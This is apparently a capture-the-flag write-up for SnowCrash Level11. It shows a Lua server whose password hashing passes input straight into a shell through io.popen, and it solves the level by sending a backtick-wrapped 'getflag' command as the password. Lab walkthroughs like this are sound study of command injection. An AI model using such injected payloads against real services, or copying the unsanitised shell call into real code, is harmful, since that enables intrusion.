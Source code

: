 # Level11

## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

What is lua ? 
A lightweight, fast programming language often used for scripting and embedding into applications. Lua is valued for its simplicity and flexibility and is commonly used for : video game scripting, embedded applications and interfaces (wireshark, nginx) and others. 


## Inspecting the file

```bash 
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This program implements a server which listens to connexions on port 5151 of the local address 127.0.0.1. 
He receives a password, hashes it and check if it corresponds to the expected hash.

```bash 
$ nc localhost 5151
Password: 
```

As expected the server waits for a password. 

## Getting the flag

Like in previous exercices we are going to try to inject the getflag command. After a few tries we found the correct syntax : 

```bash
$ nc localhost 5151
Password: `getflag` > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : **********
```




